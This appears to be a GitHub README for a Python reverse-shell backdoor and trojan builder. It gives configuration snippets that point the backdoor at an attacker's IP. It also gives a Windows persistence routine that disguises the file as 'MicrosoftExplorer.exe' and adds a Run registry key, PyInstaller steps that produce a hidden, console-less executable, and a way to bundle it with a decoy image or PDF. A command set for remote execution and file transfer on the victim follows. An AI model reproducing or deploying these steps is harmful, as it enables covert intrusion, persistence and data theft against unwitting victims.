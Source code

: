 # RevShell_2
A reverse shell written in Python with Single client support

## Usage

The backdoor.py script is the backdoor. It can be used as it is, or can be converted to an executable using ```Pyinstaller```

Step 1 

Editing backdoor.py and listener.py
```
# These stataments are at the very ends of the files
my_backdoor = Backdoor("127.0.0.1", 4444)
# enter the hacker machine IP instead of 127.0.0.1 and a port of your choice instead of 4444
# this is the IP the backdoor will try to connect to

my_listener = Listener("127.0.0.1", 4444)
# enter the hacker machine IP instead of 127.0.0.1 and a port of your choice instead of 4444
# this is the IP on which the listener will listen

# Next we'll modify the persistence function
def persistence(self):
        location = os.environ["appdata"] + "\\MicrosoftExplorer.exe"
        # this will set the location of the .exe to a hidden appdata folder with MicrosoftExplorer.exe name
        # this will set the location of the executable to whatever path you want,  for whatever OS you want, please fill it carefully
        if not os.path.exists(location):
            shutil.copyfile(sys.executable, location)
            # shutil.copyfile(__file__, location)
            # if you do not have the executable and want python file copied
            subprocess.call('reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ/d "' + location + '"', shell=True)
            # command for persistence windows. Modify for linux and MacOS
```
Step 2

Once the files have been edited for your machine's IP and target's OS, it can be converted to a executable using pyinstaller, or can be used as it is
```
pip3 install pyinstaller
pyinstaller --onefile --noconsole backdoor.py
# add the no console argument to make it better
```
The executable will be found in the dist folder

Now, the executable is ready for deployment.

## To convert executable to Trojan

Step 1

Edit backdoor_trojan.py for the Correct IP and then edit it as follows
```
filename = "<Filename>"
temp_folder = sys._MEIPASS + "/"
file = temp_folder + filename
img = Image.open(file) 
# this is is the file you want to use is a image
img.show()
# os.system(path)
# uncomment the above if its not an image (like a pdf)
```
Step 2

Once the files have been edited for your machine's IP, target's OS, it can be converted to a executable using pyinstaller, or can be used as it is
```
pip3 install pyinstaller
pyinstaller --add-data "<Full path of the image/pdf>:." --onefile --noconsole backdoor_trojan.py
```
The executable will be found in the dist folder

Now, the executable is ready for deployment.

## Usage

After the connection is accepted a special prompt will be shown ```#>```
In this prompt, any and all system commands will be executed and a few special commands are coded into it as well
```
download <filename> - downloads a file from the target computer
upload <filename> - uploads a file from hacker's computer to target computer
quit - closes the connection and exits the program
exit - closes the connection and exits the program
```
